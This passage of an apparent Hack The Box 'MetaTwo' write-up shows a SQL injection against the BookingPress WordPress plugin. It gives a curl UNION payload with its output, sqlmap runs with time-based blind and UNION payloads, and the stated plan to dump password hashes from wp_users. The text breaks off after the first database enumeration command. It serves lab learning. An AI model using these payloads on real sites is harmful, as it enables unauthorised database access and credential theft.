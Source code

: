 This was great but I wanted a better understanding of the vuln and  more hands on approach, so I looked into the POC from WpScan. I modify the command slightly to pipe the output into `jq` and it works.
```bash
┌──(kali㉿Kali)──[22:36:45]──[~/htb/Machines/MetaTwo]
└─$ curl -s http://metapress.htb/wp-admin/admin-ajax.php --data 'action=bookingpress_front_get_category_services&_wpnonce=1b4e97d0c7&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' | jq .
[
  {
    "bookingpress_service_id": "10.5.15-MariaDB-0+deb11u1",
    "bookingpress_category_id": "Debian 11",
    "bookingpress_service_name": "debian-linux-gnu",
    "bookingpress_service_price": "$1.00",
    "bookingpress_service_duration_val": "2",
    "bookingpress_service_duration_unit": "3",
    "bookingpress_service_description": "4",
    "bookingpress_service_position": "5",
    "bookingpress_servicedate_created": "6",
    "service_price_without_currency": 1,
    "img_url": "http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/images/placeholder-img.jpg"
  }
]
```
I add `-x http://127.0.0.1:8080` to my curl requset so that it will be proxied to Burpsuite. In burp I right click and hit "copy to file" and save it as `ajax.req`. I edit the file in vim to replace the `total_service` paramter value with  number. I then use this file with `SQLMap` to automate the process.
```bash
┌──(kali㉿Kali)──[22:51:04]──[~/htb/Machines/MetaTwo]
└─$ sqlmap -r ajax.req -p total_service          
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.3#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   'https://sqlmap.org

<...SNIP...>

sqlmap identified the following injection point(s) with a total of 68 HTTP(s) requests:
---
Parameter: total_service (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=bookingpress_front_get_category_services&_wpnonce=1b4e97d0c7&category_id=31&total_service=333) AND (SELECT 5342 FROM (SELECT(SLEEP(5)))Upoa) AND (1539=1539

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: action=bookingpress_front_get_category_services&_wpnonce=1b4e97d0c7&category_id=31&total_service=333) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71786a7871,0x59554f6c59646c6e4f4e434f7357534a58796b5962777666706f74475a70416675474e4a68726e63,0x71787a6b71),NULL-- -
```
From here I first enumarte the databases with the `--dbs` flag, then the tables with the `--tables` flag, then the columns with the `--columns` flag. Finally, I `-dump` two columns called `user_nicename` and `user_pass` from the `wp_users` table in the `blog` database.
```bash
┌──(kali㉿Kali)──[22:54:51]──[~/htb/Machines/MetaTwo]
└─$ sqlmap -r ajax.req -p total_service --batch --dbs

<...SNIP...>

available databases [2]:
```